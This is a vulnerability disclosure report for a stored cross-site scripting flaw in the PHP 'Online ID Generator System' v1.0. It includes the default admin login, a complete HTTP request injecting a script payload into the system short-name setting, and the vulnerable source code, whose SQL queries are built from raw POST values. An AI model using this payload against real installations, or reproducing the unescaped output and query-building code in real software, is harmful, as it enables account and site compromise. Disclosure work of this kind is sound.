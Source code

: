 # [Online ID Generator System-Stored XSS-SystemSettings.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://localhost/id_generator/classes/SystemSettings.php?f=update_settings`

**[Vulnerability Location]:** /id_generator/classes/SystemSettings.php

**[Vulnerability Test]:**

1. View `http://localhost/id_generator/admin/?page=system_info`, Insert the XSS payload in **"System Short Name"**.

   ![](../../img/20240610175902.png)

2. After clicking the update button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /id_generator/classes/SystemSettings.php?f=update_settings HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------3313215257860267042313796715
   Content-Length: 500
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=system_info
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=ms6rnpocokf8ja6rm60paue6re
   
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="name"
   
   Online ID Generator System - PHP
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="short_name"
   
   <script>alert(1)</script>
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="img"; filename=""
   Content-Type: application/octet-stream
   
   
   -----------------------------3313215257860267042313796715--
   
   ```

3. Visit `http://localhost/id_generator/admin/?page=system_info`, and a pop-up window appears.

   ![](../../img/20240610180019.png)

   ![](../../img/20240610180226.png)

**[code analysis]:**

in /id_generator/classes/SystemSettings.php:

```php
function update_settings_info(){
    $data = "";
    foreach ($_POST as $key => $value) {
        if(!in_array($key,array("about_us","privacy_policy")))
            if(isset($_SESSION['system_info'][$key])){
                $value = str_replace("'", "&apos;", $value);
                $qry = $this->conn->query("UPDATE system_info set meta_value = '{$value}' where meta_field = '{$key}' ");
            }else{
                $qry = $this->conn->query("INSERT into system_info set meta_value = '{$value}', meta_field = '{$key}' ");
            }
    }
    if(isset($_POST['about_us'])){
        file_put_contents('../about.html',$_POST['about_us']);
    }
    if(isset($_POST['welcome_content'])){
        file_put_contents('../welcome_content.html',$_POST['welcome_content']);
    }
    if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
        $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['logo'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'logo' ");
            if(is_file('../'.$_SESSION['system_info']['logo'])) unlink('../'.$_SESSION['system_info']['logo']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'logo' ");
        }
    }
    if(isset($_FILES['cover']) && $_FILES['cover']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['cover']['name'];
        $move = move_uploaded_file($_FILES['cover']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['cover'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'cover' ");
            if(is_file('../'.$_SESSION['system_info']['cover'])) unlink('../'.$_SESSION['system_info']['cover']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'cover' ");
        }
    }

    $update = $this->update_system_info();
    $flash = $this->set_flashdata('success','System Info Successfully Updated.');
    if($update && $flash){
        // var_dump($_SESSION);
        return true;
    }
}

function update_system_info(){
    $sql = "SELECT * FROM system_info";
    $qry = $this->conn->query($sql);
    while($row = $qry->fetch_assoc()){
        if(isset($_SESSION['system_info'][$row['meta_field']]))unset($_SESSION['system_info'][$row['meta_field']]);
        $_SESSION['system_info'][$row['meta_field']] = $row['meta_value'];
    }
    return true;
}
```

Finally, the `update_system_info` function is called to update the values in the `system_info` table, including the value of `short_name`.

/id_generator/admin/system_info/index.php

```php+HTML
<div class="form-group">
    <label for="short_name" class="control-label">System Short Name</label>
    <input type="text" class="form-control form-control-sm" name="short_name" id="short_name" value="<?php echo  $_settings->info('short_name') ?>">
</div>
```

And the output is made in the page.